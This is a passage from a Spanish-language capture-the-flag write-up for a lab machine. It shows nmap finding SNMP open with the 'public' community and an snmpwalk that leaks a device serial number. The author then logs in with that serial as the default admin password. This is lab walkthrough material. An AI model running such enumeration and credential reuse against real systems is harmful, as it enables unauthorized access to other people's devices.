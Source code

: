 ```text
161/udp open  snmp    SNMPv1 server; pysnmp SNMPv3 server (public)
| snmp-info:
|   enterprise: pysnmp
|   engineIDFormat: octets
|   engineIDData: 776562020a1908
|   snmpEngineBoots: 2
|_  snmpEngineTime: 39m48s
Too many fingerprints match this host to give specific OS details
Network Distance: 2 hops

TRACEROUTE (using port 161/udp)
HOP RTT       ADDRESS
1   188.42 ms 10.10.12.1
2   185.49 ms 10.10.10.105

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.21 seconds
```

Como podemos ver, nmap nos devuelve que el puerto UDP/161 se encuentra abierto y con SNMP ejecutándose. Es mas, hasta la comunidad public para todos!

# snmpwalk

Realizamos un snmpwalk sobre el servidor con la comunidad public como target:

```bash
xbytemx@laptop:~$ snmpwalk -v1 -c public 10.10.10.105
iso.3.6.1.2.1.47.1.1.1.1.11 = STRING: "SN#NET_45JDX23"
End of MIB
```

Excelente! ahora tenemos el numero de serie del equipo! Si recordamos la información anterior, el equipo se encuentra con credenciales por defecto, donde el pass de admin es el numero de serie.

> creds: admin / NET_45JDX23

# Login

Usamos las credenciales que hemos obtenido para ingresar en la aplicación:

```text
xbytemx@laptop:~$ http --form 10.10.10.105 username=admin password=NET_45JDX23
HTTP/1.1 302 Found
Cache-Control: no-store, no-cache, must-revalidate
Connection: Keep-Alive
Content-Length: 0
Content-Type: text/html; charset=UTF-8
Date: Wed, 02 Jan 2019 16:47:49 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Keep-Alive: timeout=5, max=100
Location: /dashboard.php
Pragma: no-cache
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: PHPSESSID=dl2rd6kd8mrffdg0r3vlp1r8p0; path=/
```

